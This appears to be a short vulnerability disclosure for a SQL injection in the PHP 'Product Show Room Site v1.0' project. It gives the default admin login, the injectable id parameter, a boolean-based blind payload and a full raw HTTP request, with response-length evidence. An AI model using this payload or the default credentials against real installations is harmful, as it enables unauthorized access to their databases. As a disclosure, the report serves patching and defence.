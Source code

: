# Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=products/manage_product&id=

Vulnerability location: /psrs/admin/?page=products/manage_product&id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/?page=products/manage_product&id=3%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/?page=products/manage_product&id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```
When length (database ()) = 6, Content-Length: 33616
![image](https://user-images.githubusercontent.com/54017627/171828637-4b7f41a7-a2ea-4d7a-9a40-5dd5a896eda8.png)

![image](https://user-images.githubusercontent.com/54017627/171828731-e5740568-0489-4d87-a8c0-0173246550aa.png)

When length (database ()) = 7, Content-Length: 34389
![image](https://user-images.githubusercontent.com/54017627/171828602-802cf3c1-7850-4532-9873-8c6ede4e980c.png)

![image](https://user-images.githubusercontent.com/54017627/171828696-9d13a888-3db0-4873-8083-8db74632122a.png)
